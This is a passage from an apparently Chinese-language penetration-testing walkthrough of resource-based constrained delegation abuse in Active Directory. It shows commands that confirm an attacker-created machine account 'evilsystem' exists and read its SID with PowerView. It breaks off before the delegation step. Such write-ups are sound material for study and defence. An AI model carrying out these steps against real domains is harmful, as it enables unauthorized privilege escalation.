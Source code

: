 Step 5：查询机器用户是否创建成功

```plain
net group "domain computers" /domain
```

[![](assets/1705982146-76314e2d8104ae430debb25a39642ed5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223549-34c573c6-b7a1-1.png)  
Step 6：配置evilsystem到wi7-test的基于资源约束的委派  
a、获取evilsystem的SID

```plain
Get-NetComputer "evilsystem"  //S-1-5-21-180313546-3823935851-3686928739-1604
```

[![](assets/1705982146-04950a0d000af79740550e843d02c61e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120223624-4993ea8a-b7a1-1.png)  
b、配置evilsystem到wi7-test的基于资源约束委派
